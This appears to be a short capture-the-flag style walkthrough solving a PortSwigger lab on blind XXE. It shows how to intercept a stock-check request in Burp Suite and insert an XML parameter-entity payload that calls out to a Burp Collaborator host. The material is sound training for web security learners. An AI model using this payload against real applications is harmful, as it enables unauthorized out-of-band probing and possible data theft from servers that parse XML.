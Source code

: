 ## Blind XXE with out-of-band interaction via XML parameter entities

## Solution

Visit a product page, click "Check stock" and intercept the resulting POST request in Burp Suite Professional.

Insert the following external entity definition in between the XML declaration and the stockCheck element. Right-click and select "Insert Collaborator payload" to insert a Burp Collaborator subdomain where indicated:

<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> %xxe; ]>

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/ad57a1dd-b82d-4b0e-9903-43994e0812e2">

Go to the Collaborator tab, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again. You should see some DNS and HTTP interactions that were initiated by the application as the result in our payload.

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/c4a30ffb-2ea9-479c-9159-93ae72cf5251">

<img width="1439" alt="image" src="https://github.com/SantoshKumarP1412/PortSwigger/assets/140537888/712802ff-e5f6-4685-b39d-ef1c077d9c72">

